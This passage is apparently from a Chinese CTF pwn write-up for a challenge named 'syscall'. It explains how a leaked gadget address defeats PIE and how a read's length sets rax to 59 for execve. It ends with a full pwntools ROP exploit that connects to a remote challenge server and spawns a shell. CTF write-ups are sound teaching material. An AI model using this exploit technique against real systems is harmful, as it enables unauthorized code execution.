 ```python
io.sendline(payload2)

io.interactive()
```

### syscall

检查保护

![image-20221006233326813](C:\Users\王林博\AppData\Roaming\Typora\typora-user-images\image-20221006233326813.png)

开了PIE，但是给了gadget地址，那等于没开，获取之后计算偏移

![image-20221006233846784](C:\Users\王林博\AppData\Roaming\Typora\typora-user-images\image-20221006233846784.png)

![image-20221006233925935](C:\Users\王林博\AppData\Roaming\Typora\typora-user-images\image-20221006233925935.png)

题目名称syscall，找找除了pop_rdi还有没有其他gadget

![image-20221006234013506](C:\Users\王林博\AppData\Roaming\Typora\typora-user-images\image-20221006234013506.png)

![image-20221006234108514](C:\Users\王林博\AppData\Roaming\Typora\typora-user-images\image-20221006234108514.png)

既有pop_rsi  ,  还有pop_rsi ，syscall     (32位程序通过int 0x80 进行系统调用,  64位程序通过syscall进行系统调用，分别通过对应寄存器传参，rax(eax)保存系统调用号 ）

没看到rax相关的gadget，但是函数的返回值一般保存在 rax 中，而且程序中给了两个read

![image-20221006234706016](C:\Users\王林博\AppData\Roaming\Typora\typora-user-images\image-20221006234706016.png)

execve的系统调用号为 59 ，因此最后读取 58个字符 加上回车符就可以控制rax

exp:

```python
#!/usr/bin/env python3
from pwn import*

io = remote("124.223.158.81",27005)
#io = process("./syscall")

io.recvline()
gadget = int(io.recvline(keepends = False),16)
#print(hex(int(gadget,16)))

#attach(io, 'b read')
syscall_addr = gadget - 0x11a9 + 0x11b6
offset = 0x40 + 8
pop_rdi = gadget + 8
bin_sh = gadget - 0x11a9 + 0x4010
pop_rsi_rdx = gadget - 0x11a9 + 0x11b3
payload1 = ('A'*offset).encode() + p64(pop_rdi) + p64(bin_sh) + p64(pop_rsi_rdx) + p64(0) + p64(0) + p64(syscall_addr)
io.sendline(payload1)
io.sendline(('A'*58).encode())              # rax = 输入长度 + 1

io.interactive()
```
